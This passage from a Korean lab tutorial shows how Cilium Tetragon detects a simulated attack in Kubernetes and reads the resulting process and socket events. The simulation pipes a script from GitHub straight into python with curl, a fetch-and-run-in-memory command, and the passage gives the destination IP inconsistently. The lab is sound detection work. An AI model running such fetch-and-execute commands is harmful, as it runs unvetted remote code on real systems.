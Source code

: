 
두번째 터미널에서는 Cilium Tetragon으로부터 수신하는 보안 관측가능성 이벤트를 세밀하게 조정하기 위해,
curl 또는 python 프로세스 이름과 일치하는 이벤트들만 모니터링하기 시작할 것이다.
```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --processes curl,python
```

세번째 터미널에서 malicious 파이썬 스크립트를 다운로드하고 메모리상에서 실행한다. 
```bash
curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py | python
```

## 보안 관측가능성 이벤트 
공격의 최종 움직임을 추적하자. 

`process_exec` 이벤트가 나타났다. 이 이벤트는 curl 명령어가`https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py`라는 인자와 함께 실행된 것을 보여준다.
curl 명령어는 민감한 정보(malicious script)를 다운로드하는 데 사용된 것으로 추정

![img_19.png](../assets/8week/8week1-20.png)

curl을 통해 열린 민감한 소켓 연결을 식별할 수 있다. 이 연결은 목적지 IP 185.199.110.133과 포트 443을 사용한다.
- connect 이벤트는 curl이 10.244.0.6:40914에서 185.199.108.133:443으로 TCP 연결을 시도했음을 보여준다.
- close 이벤트는 해당 TCP 연결이 종료되었음을 보여준다.
두 이벤트 모두 `CAP_SYS_ADMIN` 권한을 가지고 실행되었음이 표시되어 있다.


![img_20.png](../assets/8week/8week1-21.png)

악성 파이썬 스크립트 실행 완료 탐지
process_exit 이벤트들은 메모리에서 실행된 악성 파이썬 스크립트가 종료 코드 0과 함께 성공적으로 실행되었음을 보여준다.
